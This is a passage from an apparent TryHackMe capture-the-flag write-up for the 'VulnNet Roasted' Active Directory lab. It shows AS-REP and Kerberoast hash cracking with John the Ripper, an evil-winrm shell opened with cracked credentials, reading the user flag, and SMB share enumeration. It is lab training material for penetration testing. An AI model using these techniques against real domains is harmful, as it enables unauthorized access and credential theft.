 ```bash
<PASSWORD>        ($krb5asrep$23$t-skid@VULNNET-RST.LOCAL)     
1g 0:00:00:09 DONE (2024-02-26 22:08) 0.1003g/s 318806p/s 318806c/s 318806C/s 
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```
{: .nolineno}
{: .nolineno}
Now lets see what privileges does this user got 🔽
![Image](Pasted%20image%2020240226221910.png)
_Some more Shares READ access now_
Now I have a users credentials so lets try to enumerate the SPN ticket of a user if I could using impacket tool `GetUserSPNs.py` 🔽
![Image](Pasted%20image%2020240227132041.png)
_SPN ticket of user enterprise-core-vn_
Lets crack this ticket with John The Ripper again 🔽
![Image](Pasted%20image%2020240227132321.png)
_Got the Password of user enterprise-core-vn_
Lets see the privileges of this user with netexec Tool ⏬
![Image](Pasted%20image%2020240227132808.png)
_Got Access to winrm session !_
Lets have a winrm session 🔻
### WINRM SHELL ⏩

```powershell
┌──(kali🔥kali)-[~/Downloads/Tryhackme/VulnNet_Roasted]
└─$ evil-winrm -i 10.10.32.88 -u 'enterprise-core-vn' -p '<PASSWORD>'

Evil-WinRM shell v3.5

*Evil-WinRM* PS C:\Users\enterprise-core-vn\Documents> cd ..
*Evil-WinRM* PS C:\Users\enterprise-core-vn>
*Evil-WinRM* PS C:\Users\enterprise-core-vn> tree /f /a
Folder PATH listing
Volume serial number is 58D0-66AA
C:.
+---Desktop
|       user.txt
|
+---Documents
+---Downloads
+---Favorites
+---Links
+---Music
+---Pictures
+---Saved Games
\---Videos
*Evil-WinRM* PS C:\Users\enterprise-core-vn> cat Desktop\user.txt
THM{FLAG_FLAG_FLAG_FLAG_FLAG}
*Evil-WinRM* PS C:\Users\enterprise-core-vn> 
```
{: .nolineno}
{: .nolineno}
Now I looked into SMB shares for some new file access 🔽
```bash
┌──(kali🔥kali)-[~/Downloads/Tryhackme/VulnNet_Roasted]
└─$ smbclient //10.10.168.48/SYSVOL -U enterprise-core-vn
Password for [WORKGROUP\enterprise-core-vn]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Fri Mar 12 00:49:49 2021
  ..                                  D        0  Fri Mar 12 00:49:49 2021
```